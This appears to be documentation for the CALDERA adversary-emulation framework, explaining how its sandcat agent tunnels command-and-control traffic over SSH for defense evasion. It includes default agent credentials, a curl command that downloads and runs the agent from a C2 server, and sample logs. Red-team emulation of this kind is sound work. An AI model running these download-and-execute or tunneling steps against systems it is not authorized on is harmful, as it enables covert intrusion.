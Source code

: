 # SSH Tunneling
In addition to built-in contact methods such as HTTP, DNS, TCP, and UDP, CALDERA also provides support for SSH tunneling, which supporting agents can use to tunnel built-in contact methods for added defense evasion.

## Usage - Serverside
Within the CALDERA configuration file, adjust the following entries according to your environment:
- `app.contact.ssh.host_key_file`: File name for the server's SSH private host key. You can generate your own SSH private host key for the CALDERA server. The file must reside in the `conf/ssh_keys` directory. If the CALDERA server cannot find or read the provided private host key, it will generate a temporary RSA host key to use for operations. Although this would cause security warnings under normal circumstances, the sandcat agent implementation of SSH tunneling does not attempt to verify hosts, and thus should not be affected by changing or temporary host keys.
- `app.contact.ssh.host_key_passphrase`: Passphrase for the server's SSH private host key. The server will use this passphrase to read the private host key file provided in `app.contact.ssh.host_key_file`.
- `app.contact.ssh.socket`: Indicates the IP address and port that the CALDERA server will listen on for SSH tunneling connections (e.g. `0.0.0.0:8022`).
- `app.contact.ssh.user_name`: User name that agents will use to authenticate to the CALDERA server via SSH. The sandcat agent will use `sandcat` by default.
- `app.contact.ssh.user_password`: Password that agents will use to authenticate to the CALDERA server via SSH. The sandcat agent will use `s4ndc4t!` by default.

Once the configuration entries are set, simply start the CALDERA server up as normal via the `server.py` Python program, and the SSH contact will automatically attempt to start an SSH server that listens on the specified socket (`app.contact.ssh.socket`). 

The contact will first attempt to read in the host private key file specified by `app.contact.ssh.host_key_file`, using the passphrase specified by `app.contact.ssh.host_key_passphrase`. If it cannot read the file for whatever reason (e.g. file does not exist, or the passphrase is incorrect), then the server will generate its own temporary private key to use for the server. 

The SSH server should only be used between agents and the C2 server and should not be used to SSH into the CALDERA server manually (e.g. to manage the server remotely).

## Usage - Agent
The sandcat agent is currently the only agent that supports SSH tunneling. To use it, the `server`, `sshTunneling`, and `serverSshPort` arguments must be used. 
- `server` value is the CALDERA server endpoint that the tunnel will connect to - if the agent is tunneling HTTP communications through SSH, then `server` should be the HTTP socket for the CALDERA c2 (e.g. `http://10.10.10.15:8888`). 
- `sshTunneling` is a switch that activates SSH tunneling for the agent. The agent will open a random local port to act as the local endpoint of the SSH tunnel. This local endpoint becomes the `upstream_dest` value for the agent.
- `serverSshPort` value is the port on which the CALDERA c2 server is listening for SSH connections from agents. 

To tunnel different contacts through SSH tunneling, simply adjust the `c2` and `server` values as needed.

When authentication to the C2 server via SSH, the sandcat agent will use the `sandcat` username and `s4ndc4t!` password. Whatever credentials the agent uses must reflect the CALDERA configuration values specified in `app.contact.ssh.user_name` and `app.contact.ssh.user_password`.

The following commandline will start a sandcat agent that will open up an SSH tunnel to the CALDERA c2 server at `192.168.140.1:8022`, and the tunneled communications will be sent to the c2 server's HTTP endpoint at `192.168.140.1:8888`:
```sh
server="http://192.168.140.1:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;
chmod +x sandcat.go;
./sandcat.go -server $server -v -sshTunneling -serverSshPort 8022
```

The above Linux agent will produce verbose output similar to the following:
```
Starting sandcat in verbose mode.
[*] Starting SSH tunnel
Starting local tunnel endpoint at localhost:54351
Setting server tunnel endpoint at 192.168.140.1:8022
Setting remote endpoint at localhost:8888
[*] Listening on local SSH tunnel endpoint
[*] SSH tunnel ready and listening on http://localhost:54351.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=http://192.168.140.1:8888
upstream dest addr=http://localhost:54351
group=red
privilege=User
allow local p2p receivers=false
beacon channel=HTTP
Local SSH tunnel endpoint=http://localhost:54351
[*] Accepted connection on local SSH tunnel endpoint
[*] Listening on local SSH tunnel endpoint
[*] Forwarding connection to server
[*] Opened remote connection through tunnel
[+] Beacon (HTTP): ALIVE
```

The agent connected to the C2 server via SSH at `192.168.140.1:8022` and opened a local SSH tunnel on local port 54351 that tunnels HTTP traffic to the C2 server at `192.168.140.1:8888`. This is the equivalent of running `ssh -L 54351:localhost:8888 sandcat@192.168.140.1 -p 8022 -N`.

Note that the agent's upstream destination endpoint is set to the local SSH tunnel endpoint at `http://localhost:54351` (the protocol is set to `http` since the agent is tunneling HTTP comms), while the true server value is the final tunnel destination at `http://192.168.140.1:8888`.

Also note that the IP address or FQDN within the `server` value must be listening for SSH connections on the port specified by `serverSshPort`. This is because the sandcat agent will extract the IP/FQDN value from the `server` value and use that as the SSH server value. For instance, `http://192.168.140.1:8888` will turn into `192.168.140.1:8022` in the above example.

If running the CALDERA c2 server with logging verbosity set to `DEBUG`, you may see output similar to the following when an agent connects via SSH tunneling:
```
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted SSH connection on 192.168.140.1, port 8022
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 192.168.140.100, port 43796
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:52 connection_made) SSH connection received from 192.168.140.100.
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Requesting key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Received key exchange request
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Beginning key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Completed key exchange
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Beginning auth for user sandcat
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Trying password auth
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Auth for user sandcat succeeded
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:48 connection_requested) Connection request from 0.0.0.0:0d to localhost:8888
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2, chan=0] Set write buffer limits: low-water=16384, high-water=65536
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted direct TCP connection request to localhost, port 8888
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 0.0.0.0
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Forwarding TCP connection to localhost, port 8888
2021-03-26 09:12:43 - DEBUG (contact_svc.py:64 handle_heartbeat) First time HTTP beacon from kliuok
```

Once the tunnel is established, operators can proceed as normal with agent activity and operations.